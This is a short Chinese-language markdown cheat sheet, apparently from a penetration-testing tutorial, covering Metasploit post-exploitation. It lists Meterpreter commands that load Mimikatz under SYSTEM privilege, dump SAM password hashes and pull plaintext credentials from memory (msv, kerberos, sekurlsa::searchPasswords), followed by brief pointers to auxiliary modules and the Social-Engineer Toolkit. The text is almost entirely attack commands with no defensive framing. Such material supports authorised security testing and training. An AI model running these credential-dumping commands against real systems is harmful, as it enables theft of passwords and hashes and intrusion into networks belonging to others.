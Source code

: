 
## MSF 更多功能

### Mimikatz ❖

后渗透工具合集
需要SYSTEM权限

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

```shell
meterpreter > load mimikatz
meterpreter > help mimikatz

meterpreter > mimikatz_command -f version
meterpreter > mimikatz_command -f what::
# get list from loading non-existent module
```

### 从内存中读取密码

```
meterpreter > msv
meterpreter > kerberos
meterpreter > mimikatz_command -f samdump::hashes
meterpreter > mimikatz_command -f sekurlsa::searchPasswords
```


## MSF 辅助模块

```
show auxiliary
```

# SET 工具包

```shell
> setoolkit
```

一条龙自动化服务
